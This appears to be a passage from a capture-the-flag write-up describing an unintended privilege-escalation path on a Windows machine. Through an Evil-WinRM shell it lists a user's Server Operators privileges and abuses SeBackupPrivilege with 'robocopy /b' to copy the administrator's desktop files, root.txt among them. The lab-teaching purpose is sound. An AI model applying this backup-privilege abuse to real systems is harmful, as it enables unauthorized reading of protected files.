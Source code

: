 ## Unintended Paths

### Read as SYSTEM

#### Enumeration

I had noted earlier that jorden was in the Server Operators group, and that brings a handful of privileges:

```
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======                
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled                
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled                
SeTimeZonePrivilege           Change the time zone                Enabled 

```

I’m particularly interesting in backup and restore. I can see that jorden has `SeBackupPrivilege` and `SeRestorePrivilege`.

#### File Read

With both of these privs, I can use `robocopy` to read files (see [PayloadsAllTheThings short reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)).

```
*Evil-WinRM* PS C:\programdata\temp> robocopy /b C:\users\administrator\desktop C:\programdata\temp
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Wednesday, April 1, 2020 12:48:19 PM
   Source : C:\users\administrator\desktop\
     Dest : C:\programdata\temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
------------------------------------------------------------------------------

                           2    C:\users\administrator\desktop\
            New File                 488        desktop.ini
  0%
100%
            New File                  34        root.txt
  0%
100%
------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         2         2         0         0         0         0
```